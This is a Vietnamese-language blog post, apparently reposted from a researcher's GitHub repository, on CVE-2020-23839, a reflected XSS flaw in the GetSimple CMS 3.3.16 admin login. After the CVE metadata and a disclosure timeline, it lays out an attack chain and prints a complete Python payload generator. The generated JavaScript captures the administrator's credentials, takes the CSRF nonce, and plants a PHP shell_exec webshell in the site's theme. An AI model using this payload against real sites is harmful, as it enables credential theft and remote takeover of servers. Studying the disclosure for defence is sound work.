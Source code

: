 ```yaml
---
title: CVE-2020-23839 
date: 20/6/2021
layout: single
header:
  teaser: /assets/images/cve.PNG
--- 
```

---


# CVE-2020-23839 | GetSimple CMS v3.3.16 - Reflected XSS to RC
Tác giả: Bobby Cooke (boku) 
[boku7/CVE-2020-23839](https://github.com/boku7/CVE-2020-23839)

+ OWASP Top Ten 2017: A7:2017-Cross-Site Scripting (XSS)
+ CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting') - Type 1: Reflected XSS 
+ CVSS Base Score: 6.1 MEDIUM
+ CVSS v3.1 Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N
+ [https://nvd.nist.gov/vuln/detail/CVE-2020-23839](https://nvd.nist.gov/vuln/detail/CVE-2020-23839)
+ [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-23839](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-23839)

## Phân tích lỗ hổng và công bố đầy đủ vấn đề
+ [GetSimpleCMS/issues/1330](https://github.com/GetSimpleCMS/GetSimpleCMS/issues/1330)


--- 
## Mô tả lỗ hổng bảo mật
+ GetSimple CMS v3.3.16 gặp phải XSS được phản ánh trên Cổng thông tin đăng nhập quản trị viên. Vào ngày 12 tháng 8 năm 2020, nhà cung cấp đã nhận được chi tiết tiết lộ đầy đủ về lỗ hổng bảo mật thông qua email riêng tư. Lỗ hổng bảo mật đã được tiết lộ công khai vào ngày 13 tháng 9 năm 2020 thông qua MITER với việc xuất bản CVE-2020-23839, chứa rất ít chi tiết và không có bằng chứng về khái niệm. Vào ngày 20 tháng 1 năm 2021, việc tiết lộ đầy đủ và phân tích mã đã được tiết lộ công khai dưới vé các vấn đề hoạt động của GetSimple CMS GitHub.

## Mô tả Khai thác
+ Khai thác này tạo ra một trọng tải XSS được phản ánh, ở dạng siêu liên kết, khai thác CVE-2020-23839. Khi Quản trị viên của hệ thống GetSimple CMS truy cập URL này trong trình duyệt của họ và nhập thông tin đăng nhập của họ, một chuỗi tấn công khai thác tinh vi sẽ được khởi chạy, cho phép kẻ tấn công từ xa giành được Quyền thực thi mã từ xa của máy chủ lưu trữ hệ thống GetSimple CMS


## Chuỗi tấn công

1. Thủ thuật của kẻ tấn công GetSimple CMS Admin để truy cập URL được cung cấp từ khai thác này
2. Quản trị viên sau đó nhập thông tin đăng nhập của họ vào cổng đăng nhập GetSimple CMS
3. Tải trọng XSS được phản ánh sẽ kích hoạt Hành động khi Quản trị viên nhấp vào nút Gửi hoặc nhấn Enter
4. Tải trọng XSS thực hiện yêu cầu XHR POST trong nền, đăng nhập trình duyệt vào bảng quản trị GetSimple CMS
5. Sau đó, trọng tải XSS thực hiện yêu cầu XHR GET thứ hai tới admin / edit-theme.php và thu thập Mã thông báo CSRF & chủ đề đã định cấu hình cho các trang web được lưu trữ trên CMS
6. Tải trọng XSS sau đó thực hiện yêu cầu ĐĂNG XHR thứ 3 tới admin / edit-theme.php, đưa một WebShell backdoor PHP vào tất cả các trang của CMS
7. Kẻ khai thác liên tục cố gắng kết nối với trang /index.php công khai của hệ thống CMS GetSimple đích cho đến khi một WebShell được trả về
8. Khi khai thác kết nối với WebShell, một WebShell PHP tương tác xuất hiện trong bảng điều khiển kẻ tấn công




[![Language](https://img.shields.io/badge/Lang-python-blue.svg)](https://www.python.org)

## XSS_PAYLOAD

```python
def genXssPayload():
    XSS_PAYLOAD = '/index/javascript:'
    XSS_PAYLOAD += 'var s = decodeURIComponent("%2f");'
    XSS_PAYLOAD += 'var h = "application"+s+"x-www-form-urlencoded";'
    XSS_PAYLOAD += 'var e=function(i){return encodeURIComponent(i);};'
    XSS_PAYLOAD += 'var user = document.forms[0][0].value;'
    XSS_PAYLOAD += 'var pass = document.forms[0][1].value;'
    XSS_PAYLOAD += 'var u1 = s+"admin"+s;'
    XSS_PAYLOAD += 'var u2 = u1+"theme-edit.php";'
    XSS_PAYLOAD += 'var xhr1 = new XMLHttpRequest();'
    XSS_PAYLOAD += 'var xhr2 = new XMLHttpRequest();'
    XSS_PAYLOAD += 'var xhr3 = new XMLHttpRequest();'
    XSS_PAYLOAD += 'xhr1.open("POST",u1,true);'
    XSS_PAYLOAD += 'xhr1.setRequestHeader("Content-Type", h);'
    XSS_PAYLOAD += 'params = "userid="+user+"&pwd="+pass+"&submitted=Login";'
    XSS_PAYLOAD += 'xhr1.onreadystatechange = function(){'
    XSS_PAYLOAD += 'if (xhr1.readyState == 4 && xhr1.status == 200) {'
    XSS_PAYLOAD += 'xhr2.onreadystatechange = function(){'
    XSS_PAYLOAD += 'if (xhr2.readyState == 4 && xhr2.status == 200) {'
    XSS_PAYLOAD += 'r=this.responseXML;'
    XSS_PAYLOAD += 'nVal = r.querySelector("#nonce").value;'
    XSS_PAYLOAD += 'eVal = r.forms[1][2].defaultValue;'
    XSS_PAYLOAD += 'xhr3.open("POST",u2,true);'
    XSS_PAYLOAD += 'xhr3.setRequestHeader("Content-Type", h);'
    XSS_PAYLOAD += 'payload=e("<?php echo shell_exec($_REQUEST[FierceGodKick]) ?>");'
    XSS_PAYLOAD += 'params="nonce="+nVal+"&content="+payload+"&edited_file="+eVal+"&submitsave=Save+Changes";'
    XSS_PAYLOAD += 'xhr3.send(params);'
    XSS_PAYLOAD += '}};'
    XSS_PAYLOAD += 'xhr2.open("GET",u2,true);'
    XSS_PAYLOAD += 'xhr2.responseType="document";'
    XSS_PAYLOAD += 'xhr2.send();'
    XSS_PAYLOAD += '}};'
    XSS_PAYLOAD += 'xhr1.send(params);'
    XSS_PAYLOAD += '%2f%2f'
    return XSS_PAYLOAD
```
![](https://raw.githubusercontent.com/boku7/CVE-2020-23839/main/CVE202023839.png)

## Nguồn bài viết và mã khai thác được tác giả Boku7 chia sẻ  

## Chúc May Mắn :D
